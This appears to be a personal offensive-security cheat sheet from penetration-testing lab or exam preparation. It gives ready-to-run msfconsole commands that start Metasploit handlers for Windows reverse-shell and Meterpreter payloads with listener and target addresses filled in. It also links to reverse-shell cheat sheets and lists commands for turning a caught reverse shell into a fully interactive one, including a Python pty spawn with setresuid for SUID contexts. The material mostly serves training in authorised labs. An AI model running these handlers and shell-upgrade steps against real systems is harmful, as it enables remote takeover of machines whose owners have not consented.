 ### Staged Payloads - Quick Meterpreter Handler

```bash
msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.226; set PAYLOAD windows/shell/reverse_tcp; set LHOST 10.10.14.37; set LPORT 4444; exploit"

msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.226; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.14.37; set LPORT 4444; exploit"

msfconsole -x "use exploit/multi/handler; set RHOST 10.11.1.226; set PAYLOAD windows/meterpreter/reverse_nonx_tcp; set LHOST 10.10.14.37; set LPORT 4444; exploit"
```



### MORE SHELLS

AWESOME sheet with almost every type imaginable - https://highon.coffee/blog/reverse-shell-cheat-sheet/

Also a good list - https://sushant747.gitbooks.io/total-oscp-guide/content/reverse-shell.html

## Upgrading Shells

Once a non-interactive shell is obtained (non-tty), try these to upgrade it to a fully interactive shell (pty), with prompts and tab completion.  You can easily tell if you have a tty shell by issuing the `tty` command.

### Quick & Easy

This is the easiest method, but relies on Python being installed.

```python
python -c 'import pty; pty.spawn("/bin/bash")'

# I found this as a way to run bash if you are in a shell spawned through SUID, but this didn't work on the one system I tried
python -c 'import os,pty; os.setresuid(new_id,new_id,new_id); pty.spawn("/bin/bash")'
```

### Alternative Option

These commands basically give your reverse shell the ability to function like a normal bash shell, with tab autocompletions and all that.  In order to do this, you have to be creative and bypass the local shell to send the raw commands to the remote shell (I believe is what is happening)

```bash
SHELL=/bin/bash script -q /dev/null
CTRL+Z
stty raw -echo
#After typing the above, you won't see the next thing you type
fg
reset
xterm
#Press 'ENTER' a couple of times to get the prompt back
```

